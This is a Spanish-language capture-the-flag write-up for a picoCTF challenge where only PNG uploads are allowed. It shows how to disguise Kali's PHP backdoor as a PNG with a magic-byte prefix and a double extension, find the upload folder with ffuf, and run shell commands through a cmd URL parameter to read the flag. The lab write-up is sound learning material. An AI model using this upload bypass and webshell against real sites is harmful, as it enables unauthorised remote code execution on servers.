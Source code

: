 ## Objetivo
I found a web app that can help process images: PNG images only!

Additional details will be available after launching your challenge instance.

## Solución
- En la terminal podemos utilizar los siguiente comando para saber que herramientas esta utilizando la pagina web.
```bash
┌──(armando㉿kali)-[~]
└─$ whatweb http://atlas.picoctf.net:60150/
http://atlas.picoctf.net:60150/ [200 OK] Apache[2.4.56], Country[UNITED STATES][US], HTML5, HTTPServer[Debian Linux][Apache/2.4.56 (Debian)], IP[18.217.83.136], PHP[8.0.30], Title[File Upload Page], X-Powered-By[PHP/8.0.30]

┌──(armando㉿kali)-[~]
└─$ curl -I http://atlas.picoctf.net:60150/
HTTP/1.1 200 OK
Date: Mon, 30 Sep 2024 22:09:01 GMT
Server: Apache/2.4.56 (Debian)
X-Powered-By: PHP/8.0.30
Content-Type: text/html; charset=UTF-8
  
┌──(armando㉿kali)-[~]
└─$ 
```
- Una vez que ya descubrimos que utiliza php utilizamos un webshell para que una vez que lo enviemos a la pagina web comprobemos que podemos enviar código cuando hay una validación de archivos png (Se le añadió PNG como primera línea de código ya que la pagina lee el binario del archivo).
- Ahora utilizaremos 2 herramientas una será una lista de palabras de `wordlist` y la otra será `ffuf` para que podamos encontrar la ubicación de donde almacena nuestra imagen la pagina web.
```bash
┌──(armando㉿kali)-[~]
└─$ mkdir picoCTFretos

┌──(armando㉿kali)-[~]
└─$ cd picoCTFretos

┌──(armando㉿kali)-[~/picoCTFretos]
└─$ locate webshells/php
/usr/share/webshells/php
/usr/share/webshells/php/findsocket
/usr/share/webshells/php/php-backdoor.php
/usr/share/webshells/php/php-reverse-shell.php
/usr/share/webshells/php/qsd-php-backdoor.php
/usr/share/webshells/php/simple-backdoor.php
/usr/share/webshells/php/findsocket/findsock.c
/usr/share/webshells/php/findsocket/php-findsock-shell.php

┌──(armando㉿kali)-[~/picoCTFretos]
└─$ cp /usr/share/webshells/php/simple-backdoor.php webshell.php

┌──(armando㉿kali)-[~/picoCTFretos]
└─$ nano webshell.php

Se le añade PNG al principio del archivo

┌──(armando㉿kali)-[~/picoCTFretos]
└─$ mv webshell.php webshell.png.php

┌──(armando㉿kali)-[~/picoCTFretos]
└─$ ffuf -u http://atlas.picoctf.net:5074/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -ic

┌──(armando㉿kali)-[~]
└─$ 
```
- Una vez que encontramos en donde se encuentra almacenada nuestro archivo lo llamamos desde la dirección url modificando el parametro `cmd` para que de esta forma funcione como si estuviéramos ejecutando comandos desde la terminal y así buscamos la bandera y la mostramos.
```bash
http://atlas.picoctf.net:50724/uploads/webshell.png.php?cmd=ls
http://atlas.picoctf.net:50724/uploads/webshell.png.php?cmd=find%20/%20-name%20*txt%202%3E/dev/null
http://atlas.picoctf.net:50724/uploads/webshell.png.php?cmd=cat%20/var/www/html/MFRDAZLDMUYDG.txt
/* picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_ab0ece03} */
```

## Notas Adicionales
## Referencias
